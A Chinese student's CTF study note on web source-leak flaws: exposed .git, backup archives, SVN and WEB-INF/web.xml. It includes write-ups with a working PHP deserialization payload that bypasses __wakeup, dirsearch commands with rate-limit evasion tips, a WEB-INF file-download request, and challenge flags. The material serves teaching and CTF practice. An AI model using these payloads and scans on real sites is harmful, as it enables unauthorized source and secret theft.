



当前进度：
15/104-3/13

## 准备一下实践课的pre先

今天刷题暂停一天，准备一下pre

### git泄漏

githack

不小心将.git文件部署到线上

https://github.com/lijiejie/GitHack 简单的Python脚本

简单的搭建一个靶场：git-vul

- git-vul
    - index.php
    - flag.php
    - README.md
    - .git

用php的内置服务器简单测试：

终端运行脚本：



结果：



直接获取了源文件

！：在release时要将.git目录清除，或者设置访问权限

（framework will do so）

.hg,.svn和.DS_store都类似，也可以找到很多前人留下来的脚本

### 备份文件泄漏

网站备份压缩文件

在网站的使用过程中，往往需要对网站中的文件进行修改、升级。此时就需要对网站整站或者其中某一页面进行备份。当备份文件或者修改过程中的缓存文件因为各种原因而被留在网站web目录下，而该目录又没有设置访问权限时，便有可能导致备份文件或者编辑器的缓存文件被下载，导致敏感信息泄露，给服务器的安全埋下隐患。漏洞成因及危害:该漏洞的成因主要有以下两种：         

服务器管理员错误地将网站或者网页的备份文件放置到服务器web目录下。

编辑器在使用过程中自动保存的备份文件或者临时文件因为各种原因没有被删除而保存在web目录下。

漏洞检测:该漏洞往往会导致服务器整站源代码或者部分页面的源代码被下载，利用。源代码中所包含的各类敏感信息，如服务器数据库连接信息，服务器配置信息等会因此而泄露，造成巨大的损失。被泄露的源代码还可能会被用于代码审计，进一步利用而对整个系统的安全埋下隐患。

#### [极客大挑战 2019]PHP

可爱的猫猫...好有意思的鼠标跟随效果！

咳咳回到正题，把源代码拷贝下来，放到./ihaveacat.html里面，审计一下，没有看出什么端倪

作者说他有备份网站的好习惯，那么我们用一个简答的脚本(scan_backup.py)来扫一下服务器端目录下面有没有什么网站的备份文件。

(类似也可以扫一些其他的文件)

在应答中我们找到一个200的文件叫www.zip，访问下载到本地，打开便是作者留给我们的线索了。

flag.php里面一看就是没用的（）

class.php和index.php毫无疑问告诉我们这是一道与反序列化有关的题。

```php
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>


<div id="world">
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 85%;left: 440px;font-family:KaiTi;">因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 80%;left: 700px;font-family:KaiTi;">不愧是我！！！
    </div>
    <div style="text-shadow:0px 0px 5px;font-family:arial;color:black;font-size:20px;position: absolute;bottom: 70%;left: 640px;font-family:KaiTi;">
    <?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
    </div>
    <div style="position: absolute;bottom: 5%;width: 99%;"><p align="center" style="font:italic 15px Georgia,serif;color:white;"> Syclover @ cl4y</p></div>
</div>
<script src='http://cdnjs.cloudflare.com/ajax/libs/three.js/r70/three.min.js'></script>
<script src='http://cdnjs.cloudflare.com/ajax/libs/gsap/1.16.1/TweenMax.min.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/OrbitControls.js'></script>
<script src='https://s3-us-west-2.amazonaws.com/s.cdpn.io/264161/Cat.js'></script>
<script  src="index.js"></script>
</body>
</html>

```

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

flag藏在class.php的的__destruct文件里，而$res由我们传入的select反序列化而来，那么我们只需要构造一下符合要求的对象，然后序列化，并将结果用select传入就好了。具体的要求，username要是'admin',password要是int(100)，构造序列化结果如下：

O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}

其实还是蛮清晰的，基本可以看清楚每一个量具体代表什么（大概）

至于为什么username序列化成了Nameusername，这是因为其被定义为private变量导致的。

所以就还剩一个问题，怎么绕过__wake()

这里用到一个小技巧，如果Name:2这里的变量个数比目标类的定义变量个数多那么php就会不执行__wake()，大概是认为这应该是一个error，但实际上还是把内容完整的unserialize出来了...

传入之前别忘了urlencode()：

"O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D" 

传入得到flag{15515384-97ea-4a6c-bf1d-9cd6fb0e42d3} 

PS:中途有被拦截的情况，猫猫头上没有作者的提示输出，要去源代码看具体的拦截信息！

PSS:其实有机会可以用python写一个脚本用来进行序列化的操作这样就不用跑一遍Php（笑）

PSSS:介绍一个比简单的扫描脚本更好用的工具：dirsearch

简单的使用方法：

```bash
python3 dirsearch.py -u http://目标网址/ -w 字典路径 -f -q -t 10 -e php,txt,zip,rar,bak
```

-u：目标网址（如 http://example.com/）
-w：字典文件（如 ../words.txt）（放了一个mydict.txt在db目录下，比默认的dicc.txt好用）
-f：--force  --force-extensions Add extensions to the end of every wordlist entry. By default dirsearch only replaces the %EXT% keyword with extensions
-q：安静模式，减少无关输出
-t：线程数（根据目标实际情况调整）
-e：扩展名（可选，根据你的需求添加
--include-status: 筛选包含指定状态码
--exclude-status: 筛选排除指定状态码
--delay=: 以s为单位定义每个请求的间隔

实际运用中可能会收到：

Skipped the target due to 429 status code

这一般是因为网站设计了防扫描机制，限制同一来源在一段时间内的访问频率，因此报429(request limited overflow)

应对方法就是扫得慢一点，设置-t和--delay就可以。



扫描结果如下，下载www.zip即可继续完成解题

### SVN文件泄漏

Subversion，简称SVN，是一个开放源代码的版本控制系统，相对于的RCS、CVS，采用了分支管理系统，它的设计目标就是取代CVS。互联网上越来越多的控制服务从CVS转移到Subversion。Subversion使用服务端—客户端的结构，当然服务端与客户端可以都运行在同一台服务器上。在服务端是存放着所有受控制数据的Subversion仓库，另一端是Subversion的客户端程序，管理着受控数据的一部分在本地的映射（称为“工作副本”）。在这两端之间，是通过各种仓库存取层（Repository Access，简称RA）的多条通道进行访问的。这些通道中，可以通过不同的网络协议，例如HTTP、SSH等，或本地文件的方式来对仓库进行操作。

和git类似，但现在也属于相当过时的架构，当然和git有着同样的经由.svn泄漏信息的可能

### WEB-INF/web.xml泄露

WEB-INF是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问。WEB-INF主要包含一下文件或目录：

    /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。

    /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

    /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

    /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

    /WEB-INF/database.properties：数据库配置文件

漏洞成因：通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的优点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。

漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。

一般情况，jsp引擎默认都是禁止访问WEB-INF目录的，Nginx 配合Tomcat做均衡负载或集群等情况时，问题原因其实很简单，Nginx不会去考虑配置其他类型引擎（Nginx不是jsp引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改Nginx配置文件禁止访问WEB-INF目录就好了： location ~ ^/WEB-INF/* { deny all; } 或者return 404; 或者其他！

#### [RoarCTF 2019]Easy Java

登录无果，结合标题猜应该是要利用java模板的漏洞，

点击help，回显奇怪的页面：

java.io.FileNotFoundException:{help.docx}

看来FileName参数被载入java模板中进行了一个文件查询并尝试下载，但是为什么没能下载成功呢？

（结果原来是不知道怎的换成POST传入就可以了

总之下载了help.docx，但里面只有作者无情的嘲讽，

只好去找wp：

学新东西啦！

（详细的关于web源码的泄漏利用在下面这篇文章里可以找到

https://blog.csdn.net/wy_97/article/details/78165051

这里我们用到web-xml漏洞：

WEB-INF是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问。WEB-INF主要包含一下文件或目录：

- /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。

- /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

- /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

- /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

- /WEB-INF/database.properties：数据库配置文件

漏洞成因：通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的优点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。一般情况，jsp引擎默认都是禁止访问WEB-INF目录的，Nginx 配合Tomcat做均衡负载或集群等情况时，问题原因其实很简单，Nginx不会去考虑配置其他类型引擎（Nginx不是jsp引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改Nginx配置文件禁止访问WEB-INF目录就好了： location ~ ^/WEB-INF/* { deny all; } 或者return 404; 或者其他！

因为这个漏洞给了我们任意文件的下载权限，那么先把web.xml下载下来看看，放在日期目录下面了。

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>
</web-app>
```

然后去找与Flag有关的那个class，下载下来：

```
filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
```

下载得到的.class文件要进行一步反编译，我们使用brew管理下的cfr-compiler工具即可对其反编译：

cfr-decompiler _WEB-INF_classes_com_wm_ctf_FlagController.class > flagcontroller.txt 

```
/*
 * Decompiled with CFR 0.152.
 * 
 * Could not load the following classes:
 *  javax.servlet.ServletException
 *  javax.servlet.annotation.WebServlet
 *  javax.servlet.http.HttpServlet
 *  javax.servlet.http.HttpServletRequest
 *  javax.servlet.http.HttpServletResponse
 */
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name="FlagController")
public class FlagController
extends HttpServlet {
    String flag = "ZmxhZ3tkNTY1ZjdlNy01ZjhiLTQ5NjgtYjk5OC1mNTE0M2EzYzE1ZWV9Cg==";

    protected void doGet(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) throws ServletException, IOException {
        PrintWriter printWriter = httpServletResponse.getWriter();
        printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
    }
}
```

在导出的.txt文件中可以看到一串base64编码，解码即得到flag!

总结，xml作为一个目录，会成为攻击的起点。


